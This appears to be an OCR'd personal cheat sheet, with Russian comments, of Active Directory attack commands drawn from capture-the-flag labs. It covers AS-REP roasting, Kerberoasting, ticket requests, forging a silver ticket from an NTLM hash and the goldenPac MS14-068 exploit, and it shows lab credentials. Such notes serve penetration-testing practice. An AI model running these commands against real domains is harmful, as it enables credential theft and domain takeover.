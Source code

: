 impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/' (без списка пользователей)

# Получение идентификатора домена

impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson

#Получить идентификатор пользователя

rpcclient $> lookupnames james(username)

# Получить TGT

impacket-getTGT scrm.local/ksimpson:ksimpson (домен/логин:пароль)

export KRB5CCNAME=ksimpson.ccache

sudo apt-get install krb5-user

kinit OOREND@REBOUND.HTB (также получить тикет и кеширует на диске)

klist - список билетов керберос

# Создание Silver Ticket для Administrator

impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain scrm.local

(хеш - ntlm хеш пароля службы) 

# Сщздание голден тикет из-за уязвимости ms14

goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis'

# Глянуть SPN (НУЖЕН ПОЛЬЗОВАТЕЛЬ И ПАРОЛЬ)

python3 GetUserSPNs.py -dc-ip 10.10.154.84 lab.enterprise.thm/nik:ToastyBoi! -request

impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request

---получение SPN по билету TGT

impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local -no-pass

impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-host dc1.scrm.local -no-pass -request


"setspn -T TestDomain -Q */*"  (Теперь производится поиск доступных SPN в текущей среде при помощи следующей команды:)

# Синхронизация по времени с контролером домена

	sudo ntpdate -s 10.10.10.248 
